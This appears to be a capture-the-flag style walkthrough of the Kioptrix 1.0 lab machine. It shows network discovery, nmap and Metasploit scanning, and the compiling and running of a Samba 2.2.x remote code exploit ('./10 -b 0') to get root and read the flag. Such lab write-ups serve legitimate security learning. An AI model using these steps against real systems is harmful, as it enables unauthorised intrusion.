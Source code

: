 *Kioptrix1.0*

**RECON**
---
**Discovery** 
<pre>netdiscover -i eth1</pre>  
192.168.57.1, 192.168.57.5 have open ports
![image9](https://user-images.githubusercontent.com/66635295/158940818-d91d29b5-923c-4acc-9f6b-2091c60363b9.png)


**Nmap Scan**  
<pre>namp -sC -sV -A 192.168.57.5</pre>    
-safescan -version -OS detection     
Port 139 running Samba   
![image6](https://user-images.githubusercontent.com/66635295/158940906-7b990432-a866-4a7c-90a4-832f86c0dafa.png)

**Version Scan**  
<pre>msfconsole</pre>
<pre>use auxiliary/scanner/smb/smb-version</pre>
Samba Version 2.2.1
![image1](https://user-images.githubusercontent.com/66635295/158941165-4041b36e-e43e-4ca3-b01f-134e71fecd21.png)

**Google-Fu**  
<pre>samba 2.2.1a exploit</pre>  
2.2.8 RCE  
![image7](https://user-images.githubusercontent.com/66635295/158942927-e5417000-4f14-40f7-91e0-87c67e61d0df.png)  
![image4](https://user-images.githubusercontent.com/66635295/158942943-428d01f1-8ae4-4681-bd8b-bfcac35135e2.png)  


**ENUMURATION**
---
**Save Exploit**  
![image5](https://user-images.githubusercontent.com/66635295/158943061-9e2fd590-175e-4807-afae-0a78d37c6c87.png)

**Make executable copy**  
<pre>gcc 10.c -o 10</pre>  
GNU compiler outposts copy executable to file named 10)  
![image8](https://user-images.githubusercontent.com/66635295/158943348-a0ebcee3-3ce7-46bc-8aec-8a99eecff320.png)  


**Root Escalation**
---
**Shell**
<pre>./10 -b 0 192.168.57.5</pre>
-Bruteforce linux  
![image10](https://user-images.githubusercontent.com/66635295/158943567-b99148a3-410d-4a37-b859-1e207c344df1.png)
  
**Root Flag**  
 <pre>head -n 100 /var/spool/mail/root</pre>  
![image2](https://user-images.githubusercontent.com/66635295/158943980-2635c5da-7035-4f71-a491-2bd512c3aaa2.png)


